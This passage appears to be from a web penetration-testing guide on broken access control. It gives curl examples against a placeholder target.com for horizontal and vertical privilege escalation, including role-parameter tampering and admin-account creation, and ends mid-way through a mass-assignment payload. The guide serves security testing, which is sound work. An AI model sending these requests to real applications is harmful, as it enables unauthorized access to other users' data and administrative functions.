 1. Install Autorize extension
2. Set low-privilege user's session token
3. Browse application as high-privilege user
4. Review Autorize tab for unauthorized access

### Horizontal Privilege Escalation

**User A accessing User B's resources:**

```bash
# Profile viewing
curl http://target.com/profile/userB -H "Cookie: session=userA_session"
# Expected: 403 Forbidden
# Vulnerable: 200 OK with userB's profile

# Message reading
curl http://target.com/messages/456 -H "Cookie: session=userA_session"
# Message 456 belongs to userB

# Order manipulation
curl -X POST http://target.com/api/cancel-order \
    -H "Cookie: session=userA_session" \
    -d "order_id=789"  # Order 789 belongs to userB
```

### Vertical Privilege Escalation

**Standard user accessing admin functions:**

```bash
# Admin panel access
curl http://target.com/admin -H "Cookie: session=standard_user"

# Admin API endpoints
curl http://target.com/api/admin/users -H "Cookie: session=standard_user"

# Parameter-based role escalation
curl -X POST http://target.com/api/user/update \
    -H "Cookie: session=standard_user" \
    -d '{"user_id": 123, "role": "admin"}'

# Hidden admin functions
curl -X POST http://target.com/api/create-admin-user \
    -H "Cookie: session=standard_user" \
    -d '{"username": "hacker", "password": "pass123"}'
```

### Mass Assignment Vulnerability

**Concept:** Application blindly binds all user input to object properties.

```bash
# Normal user registration:
POST /api/register HTTP/1.1
Content-Type: application/json

{
    "username": "newuser",
    "email": "user@example.com",
    "password": "password123"
}

# Mass assignment attack (add admin field):
{
    "username": "hacker",
    "email": "hacker@evil.com",
```